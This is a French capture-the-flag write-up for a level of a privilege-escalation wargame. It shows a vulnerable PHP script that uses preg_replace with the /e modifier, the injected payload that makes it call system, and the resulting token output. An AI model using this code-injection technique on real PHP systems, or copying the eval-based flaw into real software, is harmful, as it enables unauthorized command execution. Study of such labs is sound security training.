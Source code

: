 # Level 06
Home:
```
$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

L'executable level06 sert juste à lancer /bin/php avec les bonnes permissions et prend deux paramètre optionel.

Mais le plus interresant est le fichier level06.php qui nous montre une petite faille de sécurité à cause d'eval sur la ligne 11 (flag `/e`).
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
/*
Ligne 3-7 : La fonction y($m) est définie. Elle prend un paramètre $m qui est une chaîne de caractères. À l'intérieur de la fonction, deux appels à la fonction preg_replace sont effectués. Le premier appel remplace tous les points (.) par la chaîne de caractères " x ", et le deuxième appel remplace tous les caractères "@" par le caractère "y". Ensuite, la fonction retourne la valeur de $m modifiée.

Ligne 9-15 : La fonction x($y, $z) est définie. Elle prend deux paramètres, $y et $z. À l'intérieur de la fonction, le contenu du fichier spécifié par $y est lu à l'aide de la fonction file_get_contents et stocké dans la variable $a. Ensuite, plusieurs appels à la fonction preg_replace sont effectués pour modifier le contenu de $a. Le premier appel utilise une expression régulière pour rechercher des occurrences de "[x quelque_chose]" et les remplace par le résultat de l'appel à la fonction y("quelque_chose"). Les autres appels à preg_replace remplacent simplement les crochets "[" et "]" par des parenthèses "(" et ")". Enfin, la fonction retourne la valeur modifiée de $a.
*/
?>

```

Selon le doc des [String interpolation](https://wiki.php.net/rfc/deprecate_dollar_brace_string_interpolation), elle nous dit qu'on peut exécuter des fonctions que contient une variable.</Br>
Donc on a supposé qu'on pouvait exécuter n'importe quelle fonction contenue dans le variable `z` de la fonction `x`.

Voici le premier argument qu'on donne à l'exécutable `[x {$z(getflag)}]`, celle-ci récupère le contenu de `z` et exécute la avec comme argument `getflag` et comme deuxième argument la fonction qu'on veut `system`.

*La commande finale a exécuté:*
```sh
echo '[x {$z(getflag)}]' > /tmp/exploit; ./level06 /tmp/exploit 'system'
```
```
$ ./level06 /tmp/exploit system
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : xxx
```